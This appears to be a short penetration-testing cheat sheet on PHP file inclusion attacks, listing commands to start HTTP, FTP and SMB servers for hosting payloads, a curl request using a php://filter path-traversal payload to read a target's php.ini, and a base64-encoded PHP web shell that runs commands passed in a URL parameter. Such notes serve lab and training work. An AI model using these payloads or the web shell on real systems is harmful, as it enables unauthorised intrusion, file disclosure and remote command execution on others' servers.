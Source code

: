# Useful Links

# Useful Commands

HTTP Server
sudo python3 -m http.server <LISTENING_PORT>

FTP Server
sudo python3 -m pyftpdlib -p 21

SMB Server
impacket-smbserver -smb2support share $(pwd)

Checking PHP Configurations
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

Base64 PHP Shell
echo '<?php system($_GET["cmd"]); ?>' | base64
